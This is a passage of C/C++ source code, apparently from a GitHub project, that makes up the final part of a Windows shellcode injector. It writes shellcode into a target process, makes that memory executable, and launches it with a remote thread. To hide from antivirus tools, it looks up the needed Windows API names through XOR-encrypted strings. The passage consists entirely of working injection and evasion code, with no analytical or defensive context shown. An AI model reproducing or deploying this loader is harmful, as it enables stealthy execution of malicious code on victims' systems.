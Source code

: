 ```c
		GetProcAddress(hKernel32, (LPCSTR)WriteProcessMemoryEncrypted)
		);
	BOOL wProcessMemory = pWriteProcessMemory(hOpenProcess, lpBufferAddress, exec_mem, shellcode_len, &lpNumberOfBytesWritten);
	if (!wProcessMemory) {
		printf("Could not write into the injected memory. Error code: %ld", GetLastError());
	}

	printf("Shellcode written into memory.");

	unsigned char VirtualProtectExEncrypted[] = { 0x3F, 0xDF, 0xBC, 0x57, 0x51, 0x69, 0x86, 0x33, 0x12, 0xF0, 0xD7, 0xE1, 0x69, 0x66, 0xEE, 0xF0, 0x9C };
	XOR(VirtualProtectExEncrypted, sizeof(VirtualProtectExEncrypted), key, key_len);
	// We now change the permissions of the memory address to execute, with VirtualProtectEx
	auto const pVirtualProtectEx = reinterpret_cast<BOOL(WINAPI*)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect)>(
		GetProcAddress(hKernel32, (LPCSTR)VirtualProtectExEncrypted)
		);
	BOOL vProtect = pVirtualProtectEx(hOpenProcess, lpBufferAddress, shellcode_len, PAGE_EXECUTE_READ, &lpflOldProtect);
	if (!vProtect) {
		printf("Was not possible to change the permissions of the buffer. Error code: %ld", GetLastError());
		return EXIT_FAILURE;
	}

	printf("Changed the memory space so it is executable.\nExecuting shellcode...\n");

	HANDLE hThread = NULL;
	unsigned char CreateRemoteThreadEncrypted[] = { 0x2A, 0xC4, 0xAB, 0x42, 0x50, 0x6D, 0xB8, 0x06, 0x0D, 0xF0, 0xD7, 0xE1, 0x5E, 0x7A, 0xD9, 0xED, 0xFD, 0xDA, 0x23 };
	XOR(CreateRemoteThreadEncrypted, sizeof(CreateRemoteThreadEncrypted), key, key_len);
	auto const pCreateRemoteThread = reinterpret_cast<HANDLE(WINAPI*)(HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId)>(
		GetProcAddress(hKernel32, (LPCSTR)CreateRemoteThreadEncrypted)
		);
	hThread = pCreateRemoteThread(hOpenProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBufferAddress, NULL, 0, NULL);

	if (hThread != NULL) {
		WaitForSingleObject(hThread, 500);
		printf("Thread started. Bye...\n");
		CloseHandle(hOpenProcess);
		CloseHandle(hThread);
	}

	return EXIT_SUCCESS;
}
```
